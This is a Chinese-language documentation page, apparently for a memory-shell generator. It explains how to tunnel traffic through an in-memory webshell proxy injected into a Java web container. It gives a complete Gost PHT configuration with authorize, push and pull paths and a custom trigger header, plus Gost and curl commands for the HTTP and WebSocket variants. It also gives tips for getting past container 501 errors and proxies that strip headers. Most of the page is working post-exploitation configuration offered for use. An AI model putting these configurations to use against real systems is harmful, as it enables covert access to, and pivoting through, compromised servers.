

import { Step, Steps } from "fumadocs-ui/components/steps";

## HTTP / PHT

除 WebSocket 和 RawWebSocket 外，其他 Proxy shellType 均使用 HTTP/PHT。生成并注入后，按内存马地址修改下面的 `gost.yaml`：

```yaml
services:
  - name: local-http
    addr: 127.0.0.1:1080
    handler:
      type: http
      chain: chain-0
    listener:
      type: tcp

chains:
  - name: chain-0
    hops:
      - name: hop-0
        nodes:
          - name: node-0
            addr: 127.0.0.1:8080
            connector:
              type: http
            dialer:
              type: pht
              metadata:
                authorizePath: /app/proxy?token=
                pushPath: /app/proxy
                pullPath: /app/proxy
                header:
                  User-Agent: "<headerValue>"
```

此例的内存马地址是 `http://127.0.0.1:8080/app/proxy`。三个路径必须指向同一内存马；`authorizePath` 末尾保留 `?token=`。`header` 的键和值分别替换为生成结果中的 `headerName` / `headerValue`，Gost 会为授权、推送和拉取请求携带该请求头。

```bash
./gost -C gost.yaml
curl -x http://127.0.0.1:1080 https://www.baidu.com
```

`connector: http` 负责 CONNECT 字节流，`dialer: pht` 将其封装为内存马支持的 HTTP GET/POST。不要改用普通 `-F http://内存马地址`，否则 CONNECT 可能在进入内存马前就被容器以 501 拒绝。上述配置已在 Gost v3.3.1 验证；v3.2.6 的 PHT 不支持自定义 `header`，无法使用本例的逐实例随机触发头。

## WebSocket 内存马

参考地址：https://github.com/veo/wsMemShell/blob/main/static/websocketproxy.md

<Steps>
<Step>
### 选择 Proxy



</Step>

<Step>
### 生成并注入

选取合适的打包方式，并进行内存马的注入。

</Step>
<Step>
### 使用 Gost 客户端尝试启动代理

https://github.com/go-gost/gost

```bash
❯ ./gost -L :1080 -F "ws://127.0.0.1:8082?path=/app/proxy"
{"handler":"auto","kind":"service","level":"info","listener":"tcp","msg":"listening on [::]:1080/tcp","service":"service-0","time":"2026-01-16T23:15:55.143+08:00"}
```

尝试使用 curl 命令使用代理访问百度

```bash
> curl -x socks5h://127.0.0.1:1080 https://www.baidu.com
```

</Step>
</Steps>

WebSocket/JakartaWebSocket 通过容器的 JSR-356 实现注册 Endpoint，需要直连容器使用。Nginx 或 CDN 会剥离
`Upgrade` 头，这种场景请选择 RawWebSocket/JakartaRawWebSocket。
